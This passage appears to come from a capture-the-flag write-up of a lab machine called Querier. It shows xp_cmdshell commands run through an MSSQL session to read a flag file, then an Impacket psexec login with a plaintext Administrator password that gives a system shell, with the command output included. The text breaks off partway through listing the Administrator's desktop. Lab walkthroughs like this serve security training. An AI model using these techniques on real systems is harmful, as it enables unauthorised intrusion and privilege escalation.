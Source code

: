 {% highlight bash %}

SQL> xp_cmdshell "dir c:\users\mssql-svc\Desktop"
output                                                                             

--------------------------------------------------------------------------------   

 Volume in drive C has no label.                                                   

 Volume Serial Number is FE98-F373                                                 

NULL                                                                               

 Directory of c:\users\mssql-svc\Desktop                                           

NULL                                                                               

01/29/2019  12:42 AM    <DIR>          .                                           

01/29/2019  12:42 AM    <DIR>          ..                                          

01/28/2019  01:08 AM                33 user.txt                                    

               1 File(s)             33 bytes                                      

               2 Dir(s)   6,597,021,696 bytes free                                 

NULL                                                                               

SQL> xp_cmdshell "more c:\users\mssql-svc\Desktop\user.txt"
output                                                                             

--------------------------------------------------------------------------------   

c37..........................                                                   

NULL                                                                               


{% endhighlight %}


***

## Root

### Umm I lost some notes...

And finally...

{% highlight bash %}
$python ~/impacket/examples/psexec.py 'QUERIER/Administrator':'MyUnclesAreMarioAndLuigi!!1!'@10.10.10.125
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.125.....
[*] Found writable share ADMIN$
[*] Uploading file YvXZYqVQ.exe
[*] Opening SVCManager on 10.10.10.125.....
[*] Creating service Nygc on 10.10.10.125.....
[*] Starting service Nygc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is FE98-F373

 Directory of c:\Users\Administrator\Desktop

01/29/2019  01:04 AM    <DIR>          .
01/29/2019  01:04 AM    <DIR>          ..